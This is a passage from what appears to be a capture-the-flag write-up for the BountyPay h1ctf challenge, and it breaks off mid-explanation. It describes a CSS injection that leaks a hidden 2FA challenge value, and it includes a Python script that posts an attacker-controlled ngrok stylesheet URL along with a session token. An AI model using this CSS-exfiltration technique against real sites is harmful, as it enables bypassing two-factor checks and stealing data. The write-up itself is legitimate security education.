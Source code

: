 ## Abstract
The webpage is loading a CSS page from an non-sanitized source, resulting in a CSS injection that allows an attacker to retrieve enough parts of the 2FA code to be able to access a very sensitive function.

## Impact
Ability to use access a restricted area & sensitive function from an unauthorized attacker.

## Potential fix
Making sure every code loaded by the website is allowed, even if it's only CSS that isn't usually a danger.  

## In-depth explanation
At first I thought, maybe this was again a magic hash but that the application was verifying that the challenge & the time limit sent.
Just to make sure, I checked the same resolution method as the first 2FA (spoiler alert : it didn't work), and I wrote a quick & dirty python script (right below this paragraph) that requests the challenge multiple times until a `challenge` starts with Oe, meaning if this was a weak comparison again, I could just send a value contained in the magic hashes list to get an access. As I suspected that didn't work either.
```python
import requests
from bs4 import BeautifulSoup


url_challenge = 'https://app.bountypay.h1ctf.com/pay/17538771/27cd1393c170e1e97f9507a5351ea1ba'

post = {'app_style': 'https%3A%2F%2F4291e5a07787.ngrok.io%2Fselector.css'}
challenge = ''
while not challenge.startswith('0e'):
    x = requests.post(url_challenge, data = post, cookies = {"token": "eyJhY2NvdW50X2lkIjoiQWU4aUpMa245eiIsImhhc2giOiIzNjE2ZDZiMmMxNWU1MGMwMjQ4YjIyNzZiNDg0ZGRiMiJ9"})
    soup = BeautifulSoup(x.text, 'html.parser')
    challs = soup.find_all("input")[0:2]
    for val in challs:
        print(val['value'])
        challenge=val['value']
```

I was left with the app_style field that was sent in the POST request and that contained a CSS file url :
`app_style=https%3A%2F%2Fwww.bountypay.h1ctf.com%2Fcss%2Funi_2fa_style.css`

I remembered reading about CSS injection in a [blog post](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d) from D0nut, but never exploited it before.
I read again the blog post, and figured the challenge answer I was looking for was probably pretty much like a csrf token, as an `input` div with `type=hidden`.

After hosting a CSS file containing basic payloads from the blog post, I was able to get a callback on a url, then I started thinking about how to get the name of the field I was searching for :
